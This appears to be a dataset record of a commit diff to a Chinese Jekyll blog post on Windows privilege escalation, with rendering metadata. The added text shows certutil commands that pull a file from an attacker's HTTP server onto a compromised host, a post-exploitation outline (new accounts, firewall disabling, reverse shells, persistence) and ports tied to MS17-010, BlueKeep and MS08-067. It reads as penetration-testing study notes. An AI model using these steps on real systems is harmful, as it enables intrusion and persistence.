

Before and after one commit to HouKC/houkc.github.io, a Jekyll site: the page built from _posts/2020-12-24-privilegeEscalation.md, in a window 1280 px wide and 1400 px high, scrolled down 626 px, cut to the strip 69-1400 px from the top of the window. Shown: the whole strip at 93% size, without its empty margins (233-1256 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
update privilegeEscalation.md

````diff
--- a/_posts/2020-12-24-privilegeEscalation.md
+++ b/_posts/2020-12-24-privilegeEscalation.md
@@ -23,7 +23,7 @@ tags:
 
 
 
-## 0x01 基础知识
+## 0x01 有用的知识点
 
 #### 1. 通常脚本所处的权限
 
@@ -42,9 +42,38 @@ tags:
 
 突破的方法是：找可读写目录上传cmd.exe，将执行的cmd.exe路径替换成上传的路径，再次调用执行。
 
+#### 3. windows靶机下载文件
+
+首先在本地起一个HTTP服务，用python3示例：
+
+```
+python -m http.server 4444
+```
+
+假设本地的IP为192.168.1.115（靶机要访问得到），接着在靶机运行下面命令。
+
+```powershell
+certutil.exe -urlcache -split -f http://192.168.1.115/robots.txt c:\a.txt          # 下载链接中的robots.txt文件保存到c盘a.txt文件中
+certutil.exe -urlcache -split -f http://192.168.1.115/robots.txt delete            # 清理缓存
+```
 
 
-## 0x02 信息搜集
+
+## 0x02 挖洞getshell后的一般流程和思路
+
+- 服务器信息搜集（系统信息、端口扫描等）
+- 提权（利用数据库漏洞、系统漏洞、第三方软件漏洞等）
+- 提权后可以创建系统账户、开放远程桌面、关闭防火墙等进一步控制
+- 内网信息搜集（IP段\&端口扫描、域信息搜集等）
+- 找其他服务器及其开放的服务（windows最重要的是找到域控服务器）
+- 控制并提权其他服务器（利用各种服务漏洞、系统漏洞或者站点漏洞等控制并提权）
+- 需要时应做端口转发或者建立反向shell（绕过防火墙）
+- 权限维持（可以用CS集中控制shell）
+
+
+
+## 0x03 信息搜集
+
 - 内外网
 - 服务器系统和版本、位数
 - 服务器的补丁情况
@@ -81,3 +110,26 @@ tasklist /SVC
 - 看杀软    360，主动防御、火绒(usysdiag.exe进程)
 - 看其他软件提权     tomcat（权限高）、iis（权限低）、redius提权等
 ```
+
+
+
+## 0x04 windows提权
+
+#### 1. 第三方软件提权
+
+#### 2. 溢出提权
+
+#### 3. 启动项提权
+
+#### 4. 破解hash提权
+
+#### 5. 数据库提权
+
+未更完待续。
+
+
+
+## 0xff 常见windows存在的漏洞端口
+- 445 ms17-010 永恒之蓝（windows 10 以前）
+- 3389 CVE-2019-0708 BlueKeep（windows7/windows2008）
+- 445 ms08-067（windows2008以前）
````
